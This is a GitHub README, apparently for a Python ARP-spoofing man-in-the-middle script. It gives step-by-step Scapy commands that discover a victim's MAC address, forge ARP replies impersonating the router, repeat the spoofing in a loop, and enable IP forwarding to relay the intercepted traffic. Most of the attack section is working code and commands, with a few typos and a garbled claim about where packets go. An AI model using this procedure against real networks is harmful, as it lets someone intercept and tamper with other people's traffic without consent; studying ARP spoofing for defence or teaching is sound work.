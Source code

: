 # ArpSpoof-MITM-Framework

  ## Script usage
        --> (attack on a network with 3 machines: router, attacker, target)

                python3 arp-mitm.py {ROUTERIP} {TARGETIP}

        [-] Attacker sends ARP request to broadcast (everyone on LAN) in order to receive a response from someone who knows
            where the target machine is located 
            
            --> This request contains the broadcast address and the
                IP address of the target machine 
            
            --> The request essentially asks everyone on the network (through the broadcast address) who has {targetIP}? 
                Hopefully a machine on the network who knows the location (MAC address of target machine) will respond with the 
                information we are looking for --> the target machines MAC address

        [-] Now that we have the MAC address of the target machine we can use it to craft a malicious packet that will tell
            the target machine that our MAC address is the same as the routers MAC address
            
            --> This will cause every outgoing packets from the target machine will be sent to both the router and the target
                machine
    
  ## Some useful Scapy commands:

        [-] ls(ARP) --> will list all fields required by an ARP packet
        
        [-] important fields: op, hwsrc,psrc, hwdst, pdst
        
        [-] packet = ARP(pdst='<TARGET IPADDR>') --> set pdst (destination address) to TARGETS IPADDR
        
        [-] packet.show --> show the current state of the packet being crafted
        
        [-] packet.op = 1 --> sending request --> "who has ..."
        
        [-] packet.op = 2 --> sending response

  ## Methodology: 

        [-] Send arp request through the broadcast MAC address, every machine on the LAN will receive 
            request and possibly send the reply
        
        [-] Impacket (manually):
            
                Getting mac address of target machine w/ spoofed ARP request :

                [-] broadcast = Ether(dst='ff:ff:ff:ff:ff:ff') --> Broadcast Address

                [-] arp_layer = ARP(pdst='{TARGETIP}')

                [-] entire_packet = broadcast/arp_layer --> combines arp_layer and broadcast layer into packet

                [-] answer = srp(entire_packet, timeout=2, verbose=True)[0] --> sending request to broadcast

                [-] print(answer) --> will show request and response if any received

                [-] print(answer[0])

                [-] target_mac_address = answer[0][1].hwsrc --> get mac address of target                                                                                                                                                                                                                              
                [-] print(target_mac_address)

  ### Craftinfg Malicious packet:

            [-] We are essentially going to craft a packet that will tell the target machine that
                    the attacker machine is a router, so it sends all of its packets to the attacker machine
                
            [-] packet = ARP(op=2, hwdst=target_mac_address, pdst='192.168.0.131', psrc='192.168.0.1')
                    
                    --> psrc is address of machine we want to impersonate (router)
                    --> run `netstat -nr` in terminal to find addr of router on your network (gateway)
                
            [-] packet.show() will show the contents of our malicious packet
                
            [-] send(packet, verbose=False) --> sends malicious packet to spoof targets ARP table
            
  ### Arp-tables on target machine:

            [-] You can run the command `arp -a` on the target machine before sending the malicious packet, 
                    and again after sending the malicious packet to confirm if we successfully spoofed the arp
                    tables on the target machine

            [!] Script should be run in a while loop to continuosly spoof the targets arp tables since the target machine will also still 
                send the same ARP requests we are sending still

            [!] If the target machine is unable to access the internet after it has been spoofed then you may need to run this command on your 
                attacker machine to forward the packets --> echo 1 >> /proc/sys/net/ipv4/ip_forward 
